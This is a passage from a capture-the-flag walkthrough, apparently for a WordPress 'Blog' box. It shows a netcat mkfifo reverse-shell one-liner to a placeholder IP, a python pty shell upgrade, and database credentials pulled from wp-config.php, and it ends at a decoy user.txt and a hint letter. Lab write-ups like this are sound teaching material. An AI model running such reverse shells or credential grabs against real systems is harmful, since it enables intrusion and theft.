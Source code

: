 Lets get a standard reverse shell

```
meterpreter> shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1337 >/tmp/f
python -c 'import pty; pty.spawn("/bin/bash")'
```

We get dropped at the wordpress directory, I checked out `wp-config.php` and found these credentials:
```
/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');
```
Which are for the WordPress account of `bjoel`, but not for the box user.

Lets see what check out the home directory. It only contains `bjoel` folder with `user.txt` and a PDF file. <br>
Here is the catch - user.txt is not the flag - the file says:
```
You won't find what you're looking for here..

TRY HARDER
```
But there is a hint, in the other file, inside this directory.

<a href="pics/blog-ctf/letter.png" target="_blank"><img src="pics/blog-ctf/letter.png"></a>
